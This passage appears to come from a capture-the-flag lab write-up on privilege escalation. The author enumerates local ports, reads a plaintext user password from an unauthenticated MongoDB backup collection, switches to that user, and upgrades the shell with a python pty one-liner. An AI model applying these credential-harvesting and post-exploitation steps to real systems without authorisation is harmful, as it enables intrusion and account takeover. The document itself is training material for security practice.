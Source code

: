 # Privilege Escalation → webdeveloper

```
$ ss -tl
State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*
LISTEN  0       511            127.0.0.1:9000            0.0.0.0:*
LISTEN  0       4096           127.0.0.1:27017           0.0.0.0:*
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*
LISTEN  0       128                 [::]:ssh                [::]:*
LISTEN  0       511                    *:http                  *:*
```

The port `27017` is the default port of `mongodb` service. Let’s start the `mongo` to enumerate the databases:

```
$ mongo --port 27017
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("99234862-b7d0-4819-a44d-9758c45fb98f") }
MongoDB server version: 4.4.6
```

```
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
use backup
switched to db backup
show collections
collection
user
db.collection.find()
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "[REDACTED]" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

Use the password of user `webdeveloper` in the `user` table to become the `webdeveloper` user:

```
$ su webdeveloper
Password: [REDACTED]

id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
python3 -c "import pty;pty.spawn('/bin/bash')"
webdeveloper@sky:/$
```
